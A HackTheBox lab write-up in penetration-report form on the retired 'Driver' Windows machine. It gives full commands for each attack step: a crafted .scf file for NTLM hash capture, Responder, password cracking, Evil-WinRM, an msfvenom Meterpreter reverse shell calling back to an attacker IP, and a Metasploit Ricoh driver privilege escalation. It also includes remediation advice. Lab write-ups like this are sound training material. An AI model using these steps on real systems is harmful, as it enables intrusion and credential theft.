# Driver — HackTheBox Report

| Difficulty | OS | Category |
| ---------- | -- | -------- |
| Easy | Windows | Web / Windows Privilege Escalation |

> Writeup of a retired Driver machine, published for educational/portfolio purposes.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
  * [1.1. Reconnaissance](#11-reconnaissance)
  * [1.2. Web Enumeration — Default Credentials](#12-web-enumeration--default-credentials)
  * [2.1. Exploitation — NTLM Hash Capture via Malicious Upload](#21-exploitation--ntlm-hash-capture-via-malicious-upload)
  * [2.2. Hash Cracking](#22-hash-cracking)
  * [2.3. Initial Foothold](#23-initial-foothold)
  * [3.1. Privilege Discovery — Payload Delivery & Session Setup](#31-privilege-discovery--payload-delivery--session-setup)
  * [3.2. Local Exploit Enumeration](#32-local-exploit-enumeration)
  * [3.3. Credential/Configuration Discovery via PowerShell History](#33-credentialconfiguration-discovery-via-powershell-history)
  * [3.4. Privilege Escalation Exploitation](#34-privilege-escalation-exploitation)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `Driver / IP: 10.129.95.238`
**Platform:** `HackTheBox`
**Date Completed:** `September 12, 2026`
**Assessment Type:** `Web Application / Windows Host`
**Approach:** `Black box` — tested with `no prior knowledge`.

Pheenix Security was tasked to perform a penetration test against the Hack The Box Driver target environment. The objective was to evaluate the security posture of a custom web-based firmware management portal and the underlying Windows host, identify exploitable weaknesses, and determine whether an attacker could achieve full system compromise.

The assessment identified a chain of four vulnerabilities: default HTTP Basic Authentication credentials that provided initial access to an internal firmware/driver upload portal, an unrestricted file upload feature that allowed a malicious Windows Shell Command File (`.scf`) to force an NTLM authentication attempt back to an attacker-controlled listener, a weak user password recoverable via offline cracking, and a known local privilege escalation vulnerability in an installed Ricoh printer driver (CVE-2019-19363). By chaining these four weaknesses, Pheenix Security achieved full compromise of the target host, escalating from an unauthenticated external position to NT AUTHORITY\SYSTEM.

Overall, the results indicate a high-risk exposure caused by weak authentication practices, an insecure file upload workflow, and an outdated, vulnerable third-party printer driver. Immediate remediation should focus on enforcing strong unique credentials, restricting uploaded file types, enforcing strong password policy, and removing or patching the vulnerable printer driver, with follow-up testing to validate the fixes.

---

## Scope

| Host / URL / IP Address | Description |
| ------------------------- | ------------- |
| `Driver / 10.129.95.238` | `Target machine — Windows host (IIS, SMB, WinRM)` |

> Testing was restricted to the host listed above, consistent with the platform's rules of engagement.

---

## Approach / Methodology

1. **Reconnaissance** — passive/active information gathering on the target.
2. **Scanning & Enumeration** — port/service discovery and fingerprinting.
3. **Vulnerability Analysis** — identifying exploitable misconfigurations or CVEs.
4. **Exploitation** — gaining an initial foothold.
5. **Privilege Escalation** — moving from low-privilege access to SYSTEM.
6. **Post-Exploitation** — validating impact, capturing flags/evidence, cleanup.

---

## Tools Used

| Tool | Purpose |
| ---- | ------- |
| `Nmap` | Port scanning / service enumeration |
| `Responder` | NTLM hash capture via forced authentication |
| `John the Ripper` | Offline NetNTLMv2 hash cracking |
| `Evil-WinRM` | Remote PowerShell access over WinRM |
| `msfvenom` / `Metasploit Framework` | Payload generation, session handling, local exploit suggestion, and privilege escalation exploitation |

---

## Assessment Summary (Findings Overview)

The assessment identified default web application credentials, an unrestricted file upload vulnerability enabling NTLM hash capture, a weak/crackable user password, and a known local privilege escalation vulnerability in a third-party printer driver. Chaining these four findings resulted in full compromise of the target host. Based on the demonstrated attack path, the overall risk to the assessed environment is **Critical**.

| Severity | Count |
| -------- | ----- |
| Critical | 0 |
| High | 2 |
| Medium | 2 |
| Low | 0 |
| Informational | 0 |

| # | Severity | Finding Name |
| - | -------- | ------------- |
| 1 | Medium | Use of Default Credentials on HTTP Basic Authentication |
| 2 | High | NTLM Hash Capture via Unrestricted File Upload (Forced Authentication) |
| 3 | Medium | Weak, Crackable User Password |
| 4 | High | Local Privilege Escalation via Vulnerable Ricoh Printer Driver (CVE-2019-19363) |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

> This section documents the full path from unauthenticated access to SYSTEM compromise, step by step, with commands and evidence.

### 1.1. Reconnaissance

```
sudo nmap -sC -sV 10.129.95.238
```



**Findings:** Port 80 (Microsoft IIS, presenting an HTTP Basic Authentication prompt for an "MFP Firmware Update Center"), 135 (MSRPC), 445 (SMB), and 5985 (WinRM over HTTP) open. The host resolves to the name `DRIVER`.

---

### 1.2. Web Enumeration — Default Credentials

Navigating to the web application presented an HTTP Basic Authentication prompt.



Tested the common default credential pair `admin:admin`, which succeeded and granted access to the "MFP Firmware Update Center" portal.



**Findings:** The application uses weak, guessable default credentials (`admin:admin`) with no account lockout or rate limiting observed.

---

### 2.1. Exploitation — NTLM Hash Capture via Malicious Upload

The portal's "Firmware Updates" page allows uploading a file to an internal file share, which the site states is manually reviewed by a testing team before further action.



Since uploaded files are opened/reviewed on an internal system, this presented an opportunity to deliver a Windows Shell Command File (`.scf`) — a file type that causes Windows Explorer to attempt to render a specified icon over SMB as soon as the containing folder is *viewed*, without requiring the file to be executed. This can be abused to force an NTLM authentication attempt back to an attacker-controlled listener.

Created a malicious `config.scf` file:

```
[Shell]
Command=2
IconFile=\\<attacker_ip>\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```

Uploaded `config.scf` via the Firmware Updates form, and started Responder to listen for the resulting SMB authentication attempt:

```
responder -I tun0
```



**Result:** As soon as the file was reviewed (i.e., the containing folder was browsed on the internal host), Windows attempted SMB authentication back to the attacker's machine, and Responder captured a full NetNTLMv2 hash for the user `tony`.

**Root cause:** The firmware upload feature does not restrict or validate uploaded file types/extensions, and uploaded files are opened or browsed by internal staff without isolating them from network-triggering file types such as `.scf`, `.url`, or `.lnk`.

---

### 2.2. Hash Cracking

Saved the captured NetNTLMv2 hash and cracked it offline:

```
echo 'tony::DRIVER:...' > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



**Result:** Password cracked to `liltony`.

**Credentials obtained:** `DRIVER\tony : liltony`

---

### 2.3. Initial Foothold

Used the recovered credentials to authenticate over WinRM, which was identified as open during reconnaissance:

```
evil-winrm -i 10.129.95.238 -u tony -p liltony
```



**user.txt:** `b477cddda28c0113125fa1a874727242`

---

### 3.1. Privilege Discovery — Payload Delivery & Session Setup

Generated a Meterpreter reverse shell payload:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.196 LPORT=4444 -f exe > shell.exe
```

Uploaded it to the target via the existing Evil-WinRM session:

```
upload shell.exe C:\Users\tony\music\shell.exe
```



Started a Metasploit multi/handler and executed the payload:

```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost tun0
set lport 4444
run
```

```
.\shell.exe
```



Checked running processes to identify the shell's session context:

```
ps
```



**Findings:** The Meterpreter session was running in Session 0 — a non-interactive, isolated services session — which limits interactivity. Migrated to a process running in an interactive session:

```
migrate 3244
```



---

### 3.2. Local Exploit Enumeration

With a full interactive session, ran Metasploit's local exploit suggester module to identify candidate privilege escalation paths:

```
use multi/recon/local_exploit_suggester
set session 2
run
```



**Findings:** Among several candidate exploits, `exploit/windows/local/ricoh_driver_privesc` was flagged as likely viable, noting the Ricoh driver directory has overly permissive access rights.

---

### 3.3. Credential/Configuration Discovery via PowerShell History

Since the web application's theme centered on printer/MFP firmware, reviewed the user's PowerShell command history for related configuration clues:

```
cat C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```



**Findings:** The history revealed the exact installed driver: `RICOH PCL6 UniversalDriver V4.23`, confirming the target is running a driver version affected by the local exploit suggester's flagged `ricoh_driver_privesc` module.

---

### 3.4. Privilege Escalation Exploitation

Configured and ran the Ricoh driver privilege escalation exploit against the existing session:

```
use exploit/windows/local/ricoh_driver_privesc
set payload windows/x64/meterpreter/reverse_tcp
set session 2
set lhost tun0
run
```



**Result:** The exploit added a printer using the vulnerable Ricoh driver, causing `PrintIsolationHost.exe` (running as `NT AUTHORITY\SYSTEM`) to load an attacker-controlled DLL from the writable driver directory, yielding a new Meterpreter session running as SYSTEM.

Dropped into a shell and captured the final flag:

```
shell
more c:\users\administrator\desktop\root.txt
```



**root.txt:** `18cf1b8a7fa4166c20dc18ec69f6a31c`

---

## Technical Findings Details

### 1. Use of Default Credentials on HTTP Basic Authentication — Medium

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-1392: Use of Default Credentials |
| **CVSS 3.1 Score** | 5.3 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N` *(assessed)* |
| **Description (Incl. Root Cause)** | The "MFP Firmware Update Center" web portal is protected by HTTP Basic Authentication, but accepts the default credential pair `admin:admin`. No account lockout, rate limiting, or forced password change on first use was observed. The root cause is deployment of a web application with default vendor/example credentials left unchanged in a production-like environment. |
| **Security Impact** | An unauthenticated attacker can trivially guess the credentials and gain access to the internal firmware/driver upload portal, which served as the entry point for the entire subsequent attack chain. |
| **Affected Host(s)** | `10.129.95.238:80` |
| **Remediation** | - Change all default credentials immediately upon deployment<br>- Enforce a strong password policy for all administrative accounts<br>- Implement account lockout or rate limiting on authentication endpoints<br>- Consider replacing HTTP Basic Authentication with a more robust authentication mechanism (e.g., form-based auth with MFA) |
| **References** | [MITRE ATT&CK: T1078.001 — Valid Accounts: Default Accounts](https://attack.mitre.org/techniques/T1078/001/) |

**Evidence:**
```
Username: admin
Password: admin
→ Access granted to MFP Firmware Update Center
```

---

### 2. NTLM Hash Capture via Unrestricted File Upload (Forced Authentication) — High

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-434: Unrestricted Upload of File with Dangerous Type |
| **CVSS 3.1 Score** | 7.6 (High) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` *(assessed — requires the credential from Finding 1 to reach the upload feature)* |
| **Description (Incl. Root Cause)** | The Firmware Updates page accepts arbitrary file uploads to an internal file share for manual review, with no validation or restriction on file type. Windows Shell Command Files (`.scf`) cause Windows Explorer to attempt to resolve a remote icon path over SMB simply by browsing the folder containing the file — no execution or user click required. By uploading a crafted `.scf` file pointing to an attacker-controlled path, the internal reviewer's system was forced to attempt SMB authentication, allowing capture of a NetNTLMv2 hash via Responder. |
| **Security Impact** | An attacker with access to the upload feature can force any internal user who reviews the uploaded file to leak their NTLM credentials, without any interaction beyond normal file review. This directly enabled credential theft for the user `tony`, which was cracked and used for the initial foothold. |
| **Affected Host(s)** | `10.129.95.238:80` (Firmware Updates upload feature) → internal SMB share |
| **Remediation** | - Restrict uploaded file types to an explicit allow-list appropriate to the application's purpose (e.g., firmware binary formats only), rejecting `.scf`, `.url`, `.lnk`, and similar shell-integration file types<br>- Isolate uploaded/reviewed files from any environment capable of resolving UNC paths or triggering SMB authentication<br>- Enforce SMB signing to prevent captured hashes from being relayed<br>- Consider scanning uploaded content prior to any human review |
| **References** | [MITRE ATT&CK: T1187 — Forced Authentication](https://attack.mitre.org/techniques/T1187/) |

**Evidence:**
```
[Shell]
Command=2
IconFile=\\10.10.14.196\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
```
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:7ede0b8729acd4a9:...
```

---

### 3. Weak, Crackable User Password — Medium

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-521: Weak Password Requirements |
| **CVSS 3.1 Score** | 6.5 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:L/A:N` *(assessed)* |
| **Description (Incl. Root Cause)** | The user `tony`'s password (`liltony`) was cracked from a captured NetNTLMv2 hash in seconds using John the Ripper and the rockyou wordlist. The password is a weak, dictionary-guessable value with no evidence of complexity requirements being enforced. |
| **Security Impact** | Even though the hash itself is not directly usable for pass-the-hash against WinRM, the weak underlying password meant it was trivially recoverable via offline cracking, directly enabling authenticated access (initial foothold) once the hash was captured. |
| **Affected Host(s)** | `10.129.95.238` — user `tony` |
| **Remediation** | - Enforce a strong password policy (minimum length, complexity, dictionary/blocklist checks) via Group Policy or equivalent<br>- Encourage or enforce passphrases over short dictionary-based passwords<br>- Periodically audit domain/local accounts against known-breached password lists |
| **References** | [MITRE ATT&CK: T1110.002 — Brute Force: Password Cracking](https://attack.mitre.org/techniques/T1110/002/) |

**Evidence:**
```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
→ liltony (tony)
```

---

### 4. Local Privilege Escalation via Vulnerable Ricoh Printer Driver — High

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-732: Incorrect Permission Assignment for Critical Resource |
| **CVSS 3.1 Score** | 7.8 (High) — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` *(NVD-assigned score for CVE-2019-19363)* |
| **Description (Incl. Root Cause)** | The host has the Ricoh PCL6 UniversalDriver V4.23 installed, which is affected by CVE-2019-19363: various Ricoh (including Savin and Lanier) Windows printer drivers assign overly permissive filesystem permissions to their driver installation directory. `PrintIsolationHost.exe`, which runs as `NT AUTHORITY\SYSTEM`, loads driver-specific DLLs when a new printer is installed. A low-privileged user able to write to the vulnerable driver directory can plant a malicious DLL and add a new printer referencing the vulnerable driver, causing the SYSTEM process to load and execute the attacker's code. |
| **Security Impact** | A low-privileged, authenticated user (`tony`) was able to escalate directly to `NT AUTHORITY\SYSTEM`, achieving full administrative control of the host. This was the final step of the attack chain, used to capture `root.txt`. |
| **Affected Host(s)** | `10.129.95.238` — Ricoh PCL6 UniversalDriver V4.23 installation directory |
| **Remediation** | - Update the Ricoh printer driver to a version released in 2020 or later, which corrects the permission assignment<br>- Where an updated driver is unavailable, manually restrict write permissions on the driver directory to administrators only<br>- Apply the principle of least privilege to all installed third-party driver directories as a general hardening practice<br>- Maintain an inventory of installed print drivers and monitor vendor advisories for known vulnerabilities |
